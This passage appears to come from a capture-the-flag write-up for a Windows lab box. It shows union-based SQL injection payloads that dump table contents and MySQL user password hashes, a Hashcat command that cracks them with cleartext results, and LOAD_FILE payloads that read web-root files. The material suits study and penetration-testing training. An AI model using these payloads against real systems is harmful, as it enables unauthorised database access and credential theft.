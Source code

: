 Displaying the data in one of the tables:
```
productName=p' union select (select group_concat(name,price SEPARATOR '\n') from warehouse.product),2,3,4,5,6 -- -
```
```
Cloud Server20
TP-LINK TL-WN722N v360
D-Link DWA-17129
TP-LINK Archer T2UH v2111
Asus USB-AC53 Nano11
TP-LINK TL-WN725N v319
StarTech USB867WAC22100
Asus USB-AC68100
```

These tables have no interesting data, but the password hashes of the users can also be enumerated:
```
productName=p' union select (select group_concat(User,":",Password SEPARATOR '\n') from mysql.user),2,3,4,5,6 -- -
```
```
root:*0A4A5CAD344718DC418035A1F4D292BA603134D8
manager:*CFE3EEE434B38CBF709AD67A4DCDEA476CBA7FDA
hector:*0E178792E8FC304A2E3133D535D38CAF1DA3CD9D
```

Deleting the asterisk symbol _(*)_ and cracking the hashes with **Hashcat**:
```
hashcat --user -m 300 control_mysql.hash /usr/share/wordlists/rockyou.txt
```

After a while the hashes of _hector_ and _manager_ will be cracked:
```
manager:l3tm3!n
hector:l33th4x0rhector
```

### Reading Files from the System

The **SQL Injection** can be used to read files from the file system of the box:
```
productName=p' union select (select TO_BASE64(LOAD_FILE('C:\\inetpub\\wwwroot\\uploads\\shell.php'))),2,3,4,5,6 -- -
```
```
//5OAE8A
```
```
echo //5OAE8A | base64 -d
```

After decoding the Base64-string, it just says _"NO"_ like on the web page, so the files in the _/uploads_ directory are not useful.

Displaying contents of _database.php_:
```
productName=p' union select (select TO_BASE64(LOAD_FILE('C:\\inetpub\\wwwroot\\database.php'))),2,3,4,5,6 -- -
```

